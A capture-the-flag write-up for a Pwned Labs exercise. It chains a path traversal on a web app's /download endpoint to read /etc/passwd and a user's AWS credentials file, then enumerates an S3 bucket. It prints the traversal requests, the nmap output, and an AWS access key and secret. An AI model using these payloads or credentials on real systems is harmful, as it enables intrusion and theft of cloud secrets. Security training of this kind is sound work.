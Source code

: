 ```yaml
---
title: path-traversal-to-aws-credentials-to-s3
layout: default
permalink: /writeups/pwnedlabs/:title/
category: pwnedlabs
tags: [writeup]
---
```


# [path-traversal-to-aws-crednetials-to-s3](https://pwnedlabs.io/labs/path-traversal-to-aws-credentials-to-s3)

<br>

## Entry Point

`13.50.73.5`

<br>

### NMAP

```
# Nmap 7.94SVN scan initiated Thu Oct 10 15:55:22 2024 as: nmap -p 80 -sC -sV -oA scans/port80 13.50.73.5
WARNING: Service 13.50.73.5:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for ec2-13-50-73-5.eu-north-1.compute.amazonaws.com (13.50.73.5)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  rtsp
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: application/json
|     Content-Length: 163
|     {"error":{"message":"The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.","type":"NotFound"}}
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2359
|     Vary: Cookie
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/main.css">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/navbar.css">
|     <link rel="shortcut icon" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/images/favicon.ico">
|     <link rel="stylesheet" href="https://huge-logistics-bucket.s3.eu-north-1.amazonaws.com/static/css/home.css">
|     <title>Home - Huge Logistics.</title>
|     </head>
|     <body>
|     <div class="navbar">
|     <ul>
|     <li><a class="nav-
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
|_http-title: Home - Huge Logistics.
```

<br>

## Website

![image](/assets/img/Pasted image 20241010155617.png)

### `/signup`

![image](/assets/img/Pasted image 20241010155922.png)

### `/invoices`

![image](/assets/img/Pasted image 20241010160026.png)

<br>

### LFI

![image](/assets/img/Pasted image 20241020230644.png)

![image](/assets/img/Pasted image 20241020230712.png)

<br>

```
GET /download?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
```

![image](/assets/img/Pasted image 20241020230735.png)

<br>

### Local Users

```
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash
nedf:x:1001:1001::/home/nedf:/bin/bash
```

<br>

### AWS Credentials

```
GET /download?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fnedf%2F.aws%2Fcredentials HTTP/1.1
```

```
[default]
aws_access_key_id = AKIATWVWNKAVEUUNAYO6
aws_secret_access_key = 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
```

![image](/assets/img/Pasted image 20241020233131.png)

<br><br>

## AWS

### S3

```
huge-logistics-bucket.s3.eu-north-1.amazonaws.com
```

![image](/assets/img/Pasted image 20241021004217.png)

```bash
python3 /opt/aws-s3-scanner/s3-scanner/main.py --profile nedf --region eu-north-1 --bucket huge-logistics-bucket
```

![image](/assets/img/Pasted image 20241021004608.png)

